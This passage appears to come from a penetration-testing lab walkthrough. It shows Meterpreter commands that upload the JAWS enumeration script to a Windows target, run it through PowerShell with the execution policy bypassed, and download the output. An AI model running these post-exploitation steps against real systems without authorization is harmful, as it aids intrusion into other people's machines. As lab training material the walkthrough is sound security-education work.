 ![jaws-enum.ps1](.gitbook/assets/image-20230427200912600.png)

- Back into the `MSFconsole` session, copy the **`jaws-enum.ps1`** file into the `C:\temp` target directory 

```bash
session 1
cd C:\\
mkdir Temp
cd Temp
upload /root/Desktop/jaws-enum.ps1
shell
```

- Run **`jaws-enum.ps1`** and output the results in a file

```bash
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename Jaws-Enum.txt
```

![jaws-enum.ps1](.gitbook/assets/image-20230427202552622.png)

```bash
# Back into the Meterpreter session
download Jaws-Enum.txt
```

![](.gitbook/assets/image-20230427202738197.png)

------

